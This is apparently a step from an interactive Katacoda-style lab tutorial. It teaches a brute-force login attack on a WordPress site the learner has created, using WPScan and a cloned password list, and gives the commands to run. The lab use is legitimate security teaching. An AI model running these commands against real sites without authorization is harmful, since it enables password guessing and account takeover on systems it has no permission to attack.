 ## **3. Introduction Brute-Force Attack**
---

## **What is Brute-force attack?**
```
Brute-force attack means the attacker submits a huge number of passwords or usernames to guess the username and password correctly. 
```
### Now let try to enforce the brute-force attack to the WordPress website we have just created.
<br></br>
## Step 1:
### Download the WPscan using the command:

`gem install wpscan`{{execute}}
## Step 2:
### Clone the crack.txt file which includes a list of password from Github using the command:
`git clone https://github.com/tonywong586/CrackList.git`{{execute}}
<br></br>
access the CrackList file using the following command:

`cd CrackList`{{execute}}
<br></br>
## Step 4:
### Use the following command to enforce the Brute-force attack
`
wpscan --url https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com --passwords crack.txt
`{{execute}}


